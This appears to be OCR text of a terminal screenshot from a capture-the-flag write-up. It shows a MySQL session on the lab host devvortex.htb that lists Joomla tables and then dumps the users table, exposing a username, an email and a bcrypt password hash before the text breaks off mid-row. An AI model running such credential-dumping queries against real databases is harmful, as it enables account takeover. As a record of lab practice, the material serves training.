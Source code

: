 | sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params
    | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-13 15:26:31 | 0          |